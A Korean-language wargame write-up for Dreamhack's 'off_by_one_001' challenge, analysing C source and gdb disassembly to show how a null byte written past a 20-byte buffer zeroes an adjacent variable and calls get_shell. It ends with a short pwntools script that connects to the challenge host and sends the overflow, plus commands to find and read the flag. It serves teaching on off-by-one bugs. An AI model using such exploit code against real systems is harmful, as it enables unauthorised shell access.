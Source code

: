 # 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

## 1. 문제 설명

### 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(off_by_one_001)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.

셸을 획득한 후, "flag" 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

### 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    Partial RELRO

Stack:    No canary found

NX:       NX enabled
- *NX보호기법이란?*
    - *명칭*
        - *NX(No-eXecute) bit*
    - *특징*
        - *버퍼 오버플로우 보호 기법중 하나*
        - *스택, 힙과 같은 영역에서 코드가 실행되는 것을 막는 보호기법*
        - *nx 보호기법이 적용되어 있다면, shellcode를 실행할 수 없음*
    - *NX bit 설정 확인 명령어 : dmesg | grep NX*
    - *우회 방법*
        - *system함수를 호출하는 특정 함수의 주소로 ret를 변조*

PIE:      No PIE (0x8048000)

## 2. 문제 파일 분석

### 2.1. 코드 분석

`cat off_by_one_001.c`를 통해 코드를 확인
```
// off_by_one_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_str(char *ptr, int size)
{
    int len;
    len = read(0, ptr, size);
    printf("%d", len);
    ptr[len] = '\0';
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char name[20];
    int age = 1;

    initialize();

    printf("Name: ");
    read_str(name, 20);

    printf("Are you baby?");

    if (age == 0)
    {
        get_shell();
    }
    else
    {
        printf("Ok, chance: \n");
        read(0, name, 20);
    }

    return 0;
}
```
- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `name`변수명의 `20byte`의 공간을 할당
    - 스택 메모리에 `age`변수명의 `int`형 공간에 "1"을 할당
    - `read_str`함수를 통해 `name`을 입력 받음
        - `read_str`함수 (`name` -> `ptr`, `20` -> `size`)            
            
            `len` 변수에 `read`함수가 읽어들인 버퍼의 사이즈를 저장하고 출력
            
            입력 받은 문자 끝에 널 종료 문자(`\0`) 입력
    - 만약 `age`가 0이면 `get_shell`함수가 실행
        - `get_shell`함수
            
            `system`함수로 `/bin/sh`을 실행
    - 만약 `age`가 0이 아니면 `read`함수를 통해 `name`을 입력 받음

- 주의
    - `read_str`함수안의 `read`가 `20byte`를 읽어들일 경우, 버퍼 끝에 `\0`문자를 추가할 때 스택 오버플로우가 발생할 수 있음
    - 스택 메모리에 존재하는 `age`변수가 덮어쓰여질 수 있음

- 발생 가능한 취약점
    - **스택 오버플로우(Stack Buffer OverFlow)**
    - **오프바이원 오류(Off-by-one error)**

즉, 첫 번째 `read`함수가 실행될 때 20글자를 입력하면, 추가로 입력되는 널 종료 문자(`\0`)가 오버플로우를 발생하여 인접한 `age`변수를 덮어쓸 수 있음

### 2.2. 실행 파일 분석

`gdb ./off_by_one_001`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인
```
Dump of assembler code for function main:
   0x08048654 <+0>:     push   ebp
   0x08048655 <+1>:     mov    ebp,esp
   0x08048657 <+3>:     sub    esp,0x18
   0x0804865a <+6>:     mov    DWORD PTR [ebp-0x4],0x1
   0x08048661 <+13>:    call   0x80485c2 <initialize>
   0x08048666 <+18>:    push   0x8048754
   0x0804866b <+23>:    call   0x8048420 <printf@plt>
   0x08048670 <+28>:    add    esp,0x4
   0x08048673 <+31>:    push   0x14
   0x08048675 <+33>:    lea    eax,[ebp-0x18]
   0x08048678 <+36>:    push   eax
   0x08048679 <+37>:    call   0x8048609 <read_str>
   0x0804867e <+42>:    add    esp,0x8
   0x08048681 <+45>:    push   0x804875b
   0x08048686 <+50>:    call   0x8048420 <printf@plt>
   0x0804868b <+55>:    add    esp,0x4
   0x0804868e <+58>:    cmp    DWORD PTR [ebp-0x4],0x0
   0x08048692 <+62>:    jne    0x804869b <main+71>
   0x08048694 <+64>:    call   0x8048641 <get_shell>
   0x08048699 <+69>:    jmp    0x80486b8 <main+100>
   0x0804869b <+71>:    push   0x8048769
   0x080486a0 <+76>:    call   0x8048450 <puts@plt>
   0x080486a5 <+81>:    add    esp,0x4
   0x080486a8 <+84>:    push   0x14
   0x080486aa <+86>:    lea    eax,[ebp-0x18]
   0x080486ad <+89>:    push   eax
   0x080486ae <+90>:    push   0x0
   0x080486b0 <+92>:    call   0x8048410 <read@plt>
   0x080486b5 <+97>:    add    esp,0xc
   0x080486b8 <+100>:   mov    eax,0x0
   0x080486bd <+105>:   leave
   0x080486be <+106>:   ret
End of assembler dump.
```

```
0x08048654 <+0>:     push   ebp
0x08048655 <+1>:     mov    ebp,esp
0x08048657 <+3>:     sub    esp,0x18
0x0804865a <+6>:     mov    DWORD PTR [ebp-0x4],0x1

-- 스택에 쌓인 모습 --

높은 메모리 주소
+---------------+ <-- ebp
|      age      |
|     4 byte    |
+---------------+ <-- [ebp-0x4]
|      name     | 
|    20 byte    |
+---------------+ <-- esp [ebp-0x18]
낮은 메모리 주소
```


## 3. 문제 풀이 코드

```
from pwn import *

#name
payload = b'\x90' * 20

r = remote('host3.dreamhack.games', 14570)

r.send(payload)

r.interactive()
```
`b'\x90' * 20`: 버퍼에 아무글자로 `20byte`를 채움

- 쉘 실행 이후
    `find / -name "flag"`를 입력하여 플래그 파일을 검색
    
    `/home/off_by_one_001/flag`

    `cat /home/off_by_one_001/flag`를 입력